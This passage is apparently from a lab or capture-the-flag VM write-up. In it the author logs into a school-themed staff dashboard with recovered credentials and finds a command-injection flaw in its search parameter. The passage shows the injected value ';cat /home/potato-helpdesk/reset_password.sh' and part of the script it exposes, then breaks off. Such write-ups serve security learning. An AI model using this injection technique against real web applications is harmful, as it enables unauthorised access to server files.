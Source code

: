     ![CyberChef_Output](@images/2025/pootato-vm-writeup/CyberChef_Output.png)

## Command Injection

21) With the Username `Shared_Account` & Password `p0tat0-sch00l-d4-b3st`, I decided to head back to the New Dashboard `https://potatos.potato-school.com/new_dashboard/login.php` & login with those credentials & was successful.

    ![Staff_Account_Login_New_Dashboard](@images/2025/pootato-vm-writeup/Staff_Account_Login_New_Dashboard.png)

    Upon successful login, I did some exploration & found that when clicking the button `Search` in the `Home` tab after typing some random letters such as the letter "a", the URL showed the following:

    `https://potatos.potato-school.com/new_dashboard/staff_dashboard.php?query=a`

    Additionally, the output also showed files that had the letter "a" included inside. The file `/home/potato-helpdesk/reset_password.sh` was the most stood out the most.

    ![Staff_Dashboard_Search_Field](@images/2025/pootato-vm-writeup/Staff_Dashboard_Search_Field.png)

    After many attempts to read the file with various commands like `cat /potato-helpdesk/reset_password.sh`, I decided to search online found a github repo [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md#chaining-commands) that showed the different methods of Command Injection, allowing me to successfully read the file by adding a semi-colon in front of the command: `;cat /home/potato-helpdesk/reset_password.sh`, giving the following output:

    ```
    #!/bin/bash

    # Function to display usage
    usage() {
       echo "Usage: $0 -u <username>"
       echo "Example: $0 -u student1"
       exit 1
    }

    # Check if no arguments are provided
    if [ $# -eq 0 ]; then
       usage
    fi

    # Parse command line arguments
    while getopts ":u:" opt; do
       case ${opt} in
        u )
            user=$OPTARG
            ;;
        \? )
            usage
            ;;
       esac
    done
